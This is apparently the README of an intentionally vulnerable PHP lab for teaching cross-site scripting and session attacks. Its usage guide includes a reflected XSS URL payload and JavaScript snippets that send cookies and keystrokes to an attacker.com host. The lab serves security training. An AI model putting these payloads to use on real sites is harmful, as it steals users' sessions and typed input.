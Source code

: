 # XSS MasterLab: Cross-Site Scripting Vulnerability Simulator  

![XSS MasterLab Banner](Screenshot 2025-06-13 at 00-17-44 XSS Lab.png)  


## Overview  
**XSS MasterLab** is a comprehensive educational platform designed for cybersecurity professionals, developers, and students to safely study, demonstrate, and understand Cross-Site Scripting (XSS) vulnerabilities in a controlled environment. This intentionally vulnerable web application simulates real-world scenarios to teach offensive security techniques and defensive countermeasures.

## Key Features  
- 🎯 **Complete XSS Vulnerability Suite**: Reflected, Stored, and DOM-based XSS
- 🔓 **Session Attacks**: Session fixation, session hijacking, and ID brute-forcing
- 🕵️ **MITB Simulation**: Realistic Man-in-the-Browser attack demonstration
- 🛡️ **Security Labs**: Hands-on vulnerability exercises with clear learning objectives
- 📊 **Visual Analytics**: Attack visualization and impact demonstration
- 🧩 **Modular Design**: Extensible architecture for adding new vulnerabilities
- 🎨 **Professional UI**: Clean, responsive interface with theme customization

## Vulnerability Matrix  
| Attack Type          | File         | Vulnerability Class       |
|----------------------|--------------|---------------------------|
| Reflected XSS        | index.php    | Non-sanitized GET input   |
| Stored XSS           | comment.php  | Unsanitized user content  |
| DOM-Based XSS        | index.php    | Unsafe document.write()   |
| Session Fixation     | login.php    | Predictable session IDs   |
| Session Bruteforce   | brute.php    | Short session identifiers |
| MITB Attack          | mitb.php     | Credential theft via XSS  |
| Session Hijacking    | profile.php  | Missing HttpOnly flag     |

## Setup Instructions  
1. **Requirements**:  
   - XAMPP/WAMP server (PHP 7.4+)
   - Modern web browser

2. **Installation**:  
   ```bash
   # Clone repository
   git clone https://github.com/your-username/xss-masterlab.git
   
   # Move to htdocs
   mv xss-masterlab /path/to/xampp/htdocs/
   
   # Create storage directory
   mkdir store
   chmod 777 store
   ```

3. **Access Application**:  
   `http://localhost/xss-masterlab/index.php`

## Usage Guide  
### Basic Attacks  
1. **Reflected XSS**:  
   `http://localhost/xss-masterlab/index.php?name=<script>alert(1)</script>`

2. **Stored XSS**:  
   - Submit malicious script via comment.php
   - View payload execution in view.php

3. **Session Bruteforce**:  
   - Visit brute.php to get session ID
   - Bruteforce with: `brute.php?sid=GUESS`

### Advanced Scenarios  
```javascript
// Session Hijacking Payload
fetch('https://attacker.com/steal?cookie=' + document.cookie)

// Keylogger Implementation
document.addEventListener('keypress', (e) => {
  fetch('https://attacker.com/log?key=' + e.key)
})
```

### MITB Attack  
1. Navigate to mitb.php
2. Enter credentials in fake login form
3. Observe credential theft simulation

## Security Features  
While demonstrating vulnerabilities, XSS MasterLab includes safety measures:
- Isolated environment with no external network access
- Automatic session expiration
- IP-based request logging
- Content Security Policy headers (disabled for training)
- Clear security warnings throughout UI

## Ethical Use Disclaimer  
> **Warning**: This application contains intentional security vulnerabilities. Never deploy on public servers or networks accessible to untrusted parties. Use exclusively for:
> - Security education
> - Penetration testing training
> - Secure coding demonstrations
> - Security awareness workshops

Unauthorized use for attacking systems without explicit permission is illegal.

## Contributing  
We welcome contributions! Please follow these steps:
1. Fork the repository
2. Create a new branch (`git checkout -b feature/improvement`)
3. Commit changes (`git commit -am 'Add new feature'`)
4. Push to branch (`git push origin feature/improvement`)
5. Create new Pull Request

## License  
This project is licensed under the **Educational Community License v2.0**  
Copyright © 2025 Netrinix Solutions. All rights reserved.

---
**Developed for Educational Purposes by Netrinix Security Labs**  
[Report Issues](mailto:security@netrinix.com) | [Request Features](mailto:features@netrinix.com)
